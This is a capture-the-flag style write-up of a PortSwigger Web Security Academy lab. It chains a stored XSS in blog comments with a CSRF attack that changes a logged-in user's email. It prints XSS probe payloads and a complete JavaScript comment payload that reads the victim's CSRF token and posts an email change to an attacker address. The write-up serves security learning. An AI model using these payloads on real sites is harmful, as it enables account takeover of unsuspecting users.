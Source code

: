 # Write-up: Exploiting XSS to perform CSRF @ PortSwigger Academy

![logo](img/logo.png)

This write-up for the lab *Exploiting XSS to perform CSRF* is part of my walk-through series for [PortSwigger's Web Security Academy](https://portswigger.net/web-security).

Learning path: Client-side → Cross-site scripting (XSS)

Lab-Link: <https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf>  
Difficulty: PRACTITIONER  
Python script: [script.py](script.py)  

## Lab description

![lab_description](img/lab_description.png)

## Steps

### Analysis

As usual, the first step is to analyze the functionality of the lab application, in this case, a blog website.

### Find stored XSS

There is one place within the public pages where any visitor can add content: the comment sections under each article (the lab description already states where it is, but it is the only place to store something anyway).

So I try if I am able to insert HTML tags within the fields:

![inserted_html](img/inserted_html.png)

![inserted_html_result](img/inserted_html_result.png)

In the name, the tags are properly encoded. However, my tags within the comment appear to get inserted directly back into the page content.

As a next step I want to find the answer to two questions:

- Can I insert a full script block?
- Can I add a script within an `<img>` tag?
- Are there any relevant characters that are blocked or encoded so that I can not use them in the XSS?

To find these answers, I use the following payload:

```
<script>alert(document.domain)</script>
<img src=x onerror='alert(document.domain)' />
xX';!--"<XSS>=\&{()}<br />Xx
```

![xss_answers](img/xss_answers.png)

When I view the comment, I get both alert boxes and see all characters in the HTML source. I found my place for inserting the stored XSS.

---

### Find out how to change email

Now it is time to use the provided credentials and log in as a `wiener`. The objective of the lab is to change the email of a victim, so I look at how this works:

![email_change](img/email_change.png)

The request is protected by a CSRF token which is stored in a hidden input field of the email change form.

Generally speaking, such a token is the proper way to protect against CSRF attacks and browsers will prevent me from reading content via JavaScript from other origins.

In this case, however, I have an XSS vulnerability at hand where this restriction does not apply as it is running at the very same origin.

---

### Chain the vulnerabilities

To get things working, I need to chain these vulnerabilities together:

- A CSRF attack that sends the request to change the email
- The stored XSS obtains the CSRF token and delivers that CSRF attack

My XSS needs to extract the CSRF token from the `/my-account` page. The most flexible way is to use a regular expression to both parse through the HTML and return the token. 

A quick search brought me to the documentation of [match](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/match) and how to interpret its return value:

![match_docu](img/match_docu.png)

To find the proper expression I turn to [regex101](https://regex101.com/), using the full HTML source of the account page as the test string.

![regex_crafter](img/regex_crafter.png)

With this tool, I find my regex to be `csrf" value="(\w+)"`. Not using the `g` flag ensures that the CSRF token is included in the result of the match as the second item in the return array of `match`

---

### The malicious comment

Now is the time to put everything together. My XSS comment now looks like this:

```html
<script>
var r = new XMLHttpRequest();
r.onload=function() {
    csrf = this.responseText.match(/csrf" value="(\w+)"/)[1];
    var attack = new XMLHttpRequest();
    attack.open("POST", "https://0a74007e040c37b4c0f5013c009600e3.web-security-academy.net/my-account/change-email", "true");
    attack.send("email=mail@evil.me&csrf=" + csrf);
}
r.open("GET", "https://0a74007e040c37b4c0f5013c009600e3.web-security-academy.net/my-account", "true");
r.withCredential = true;
r.send();
</script>
```

First, it gets the account website. From the result, it extracts the CSRF token and issues another request to the email change functionality. 

![malicious_comment](img/malicious_comment.png)

Right after sending the comment, the lab updates to

![success](img/success.png)

After manually accessing the comment page and going to the account page I can verify that the email was indeed changed by just viewing the comment:

![verify_changed_email](img/verify_changed_email.png)

---

If you found this article helpful, please give it a clap. To get notified of more write-ups, follow me on [GitHub](https://github.com/frank-leitner) or [medium](https://medium.com/@frank.leitner).
